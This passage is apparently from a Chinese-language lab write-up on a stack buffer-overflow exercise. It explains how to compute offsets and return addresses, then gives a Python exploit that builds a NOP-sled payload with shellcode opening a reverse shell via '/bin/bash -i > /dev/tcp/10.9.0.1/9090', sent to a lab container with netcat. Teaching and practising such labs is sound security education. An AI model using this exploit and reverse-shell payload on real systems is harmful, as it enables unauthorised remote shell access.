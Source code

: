 ```py
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

代码解读：
1. 其中，shell code 放在最顶端，即开始位置在 `517 - len(shellcode)`。
2. ret 为 `ebp + 8` 以上的任意位置都可以（小于shell code），因为上面全被 NOP 覆盖，所以总能到达 shell code。
3. offset = ebp - start(buffer) + 4 = 0x74
4. shell code 中的命令行改为反向 shell 需要的命令。

执行 `./exploit.py`，获得 `badfile`。
用`nc -lnv 9090` 监听9090端口，并执行 ` cat badfile | nc 10.9.0.5 9090` 将 `badfile` 发送到 docker ，即得。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102136264.png)

## task 3 L2 attack

该任务和前者唯一的区别在于没有给出 ebp 的位置，但告诉了我们`But the range is known [100, 300]`，于是我们可以暴力尝试，将ret填满整个空间即可。简单修改`exploit.py`即得。这里注意 ret 的位置应该始终在 buffer 之上，即大于300。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102136890.png)
```py

#!/usr/bin/python3
import sys

shellcode= (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   #"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL   # Put the shellcode in here
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd038+308     # Change this number 

# 循环填入 ret
for offset in range(100,304,4):
  content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```